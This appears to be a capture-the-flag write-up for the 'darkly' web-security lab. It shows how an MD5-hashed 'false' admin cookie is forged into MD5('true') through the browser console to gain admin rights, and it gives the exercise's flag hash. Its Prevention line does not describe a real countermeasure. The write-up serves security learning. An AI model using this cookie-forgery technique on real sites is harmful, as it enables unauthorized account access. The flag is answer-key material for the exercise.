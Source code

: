 # SESSION HIJACKING ATTACK

## Flag
```
df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## Discovery
On the page http://{IP_ADDRESS}/

```diff
# inspector console
document.cookie
> 68934a3e9455fa72420237eb05902327
```

```diff
md5_decrypt('68934a3e9455fa72420237eb05902327')
> false
md5_encrypt('true')
> b326b5062b2f0e69046810717534cb09
```

```diff
# inspector console
document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"
```
Refresh page

## Use
> perform any actions that the original user is authorized to do during the active session

## Prevention
> Session cookies are a way of overcoming these constraints and allowing web applications to identify individual computer systems and store the current session state

## Documentation
- [owasp - Session hijacking attack](https://www.owasp.org/index.php/Session_hijacking_attack)
- [netsparker - Session hijacking](https://www.netsparker.com/blog/web-security/session-hijacking/)
- [md5](https://md5decrypt.net/en/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly)